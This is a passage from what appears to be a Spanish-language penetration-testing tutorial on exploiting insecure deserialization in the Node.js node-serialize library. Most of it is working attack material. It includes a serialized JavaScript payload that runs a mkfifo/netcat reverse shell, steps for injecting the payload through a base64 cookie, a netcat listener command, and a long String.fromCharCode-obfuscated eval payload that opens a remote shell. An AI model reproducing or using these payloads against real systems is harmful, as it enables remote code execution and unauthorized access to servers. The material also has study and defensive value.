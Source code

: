 Modifiquemos **serialize.js** para que nuestra función ahora nos dé un shell inverso al conectarnos a un puerto de escucha en nuestra máquina.

```javascript
var serialize = require('node-serialize');


x = {
test : function(){
  require('child_process').execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f", function puts(error, stdout, stderr) {});
}
};

console.log("Serialized: \n" + serialize.serialize(x));


/*
append () after the function closing bracket
*/
```

```bash
node serialization.js
```

copiamos la salida, agregamos (), lo convertimos en base64 y reemplazamos a la cookie, al colocarnos en escucha tendremos una reverse shell:

```bash
rlwrap nc -lvnp 4444
```

podemos utilizar el script [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) para crear un payload:

```bash
python nodejsshell.py <IP_KALI> <PORT_KALI>
```

output:

```bash
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```